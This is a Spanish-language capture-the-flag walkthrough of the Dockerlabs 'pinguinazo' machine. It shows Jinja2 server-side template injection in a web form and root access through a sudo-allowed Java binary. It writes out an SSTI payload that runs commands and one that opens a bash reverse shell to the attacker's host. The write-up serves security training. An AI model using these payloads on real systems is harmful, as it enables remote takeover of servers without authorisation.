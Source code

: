 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh pinguinazo.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
<ins>La dirección IP de la máquina a vulnerar siempre es la 172.17.0.2</ins>.

  ![image](https://github.com/user-attachments/assets/38162397-79f3-47ca-b931-f8e464a7a7b8)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/user-attachments/assets/801657e1-ad54-495f-b4e0-6b597b43e0cb)

Podemos ver que se encuentra abierto únicamente el puerto ***5000***, correspondiente al servicio ***UPnP*** (Universal Plug and Play).

Vamos a intentar atacar a la máquina víctima mediante UPnP. Para ello, nos podemos dirigir al navegador y en el buscador ponemos http://172.17.0.2:5000.

  ![image](https://github.com/user-attachments/assets/dd69d7fc-ffa1-4181-9df7-8e5f0bc7d83e)

Se nos muestra un formulario de datos de usuario, para registrarnos en la página web del servidor. Algo a resaltar, es que el input del correo no puede editarse.

Probamos a ingresar unos datos aleatorios y enviar el formulario:

  ![image](https://github.com/user-attachments/assets/dfe3ea75-cb44-4687-a508-8058110dfe3e)

Al hacer clic en el botón de "**Save all**" se nos redirige a la dirección http://172.17.0.2:5000/greet y se ve este mensaje:

  ![image](https://github.com/user-attachments/assets/c5b66d38-2e76-4733-b777-27bb2f15d580)

Parece ser que el servidor lee el input del Nombre e interactúa con él, por lo que podríamos realizar un **ataque SSTI** (*Server-Side Template Injection*). Probamos con un código simple:

  ![image](https://github.com/user-attachments/assets/d5bbe711-4cf9-4e6c-8dde-02868e316de0)

  ![image](https://github.com/user-attachments/assets/261ada76-99b4-44e4-b866-ba92d14aad87)

La salida muestra el resultado de la operación matemática, por lo que el formulario es vulnerable.

Accedemos a [esta página web](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) y escribimos la siguiente línea de código:

**{{ cycler.__init__.__globals__.os.popen('id').read() }}**

  ![image](https://github.com/user-attachments/assets/481a5d1b-21e2-4fa9-969c-06f16cf391c4)

  ![image](https://github.com/user-attachments/assets/9ef32c30-7e2c-4c3f-8cc2-c17517271ffe)

Somos el usuario *pinguinazo*, con ID 1001.

Ahora, insertamos este código para realizar una reverse shell:

**{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read() }}**

  ![image](https://github.com/user-attachments/assets/6ce51009-acc6-43ac-a1c7-37d14b00715d)

Nos ponemos en escucha con NetCat por el puerto 443 antes de ejecutarlo.

  ![image](https://github.com/user-attachments/assets/c40e1030-4234-4de2-9a71-bb7ae1614ce8)

Hemos accedido a la máquina víctima como el usuario "**pinguinazo**".

Miramos con el comando **sudo -l** los archivos binarios que puede ejecutar este usuario de manera privilegiada.

  ![image](https://github.com/user-attachments/assets/ce18f397-c6b9-40a5-8d60-38260ed5f57d)

Podemos ejecutar el binario /usr/bin/java como usuario root, sin necesidad de ingresar la contraseña del usuario en la CLI.

Para realizar la escalada de privilegios, creamos un archivo tipo Java que contenga el código de una reverse shell. Para ello, utilizamos la página de [Revshells](https://www.revshells.com/).

  ![image](https://github.com/user-attachments/assets/82af0921-5be5-42af-a370-60ac747a36b9)

  ![image](https://github.com/user-attachments/assets/c6cf4e90-2201-4f00-949e-5b2ae29b6f64)

Nos ponemos en escucha con NetCat por el puerto 443 y ejecutamos el archivo con **sudo /usr/bin/java** [***fichero java***].

  ![image](https://github.com/user-attachments/assets/c0abe717-5fa9-4d5d-83db-a44f2c34f447)

  ![image](https://github.com/user-attachments/assets/42f31f81-559c-4cd6-ba6f-5e7736db9971)

  ![image](https://github.com/user-attachments/assets/455e0da7-e864-4f0d-b96c-3b6a32e291f3)

Finalmente, hemos accedido al sistema como usuario root, por lo que contamos con todos los privilegios existentes.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/user-attachments/assets/60500623-fe36-4cb9-954d-8ffbe897920b)
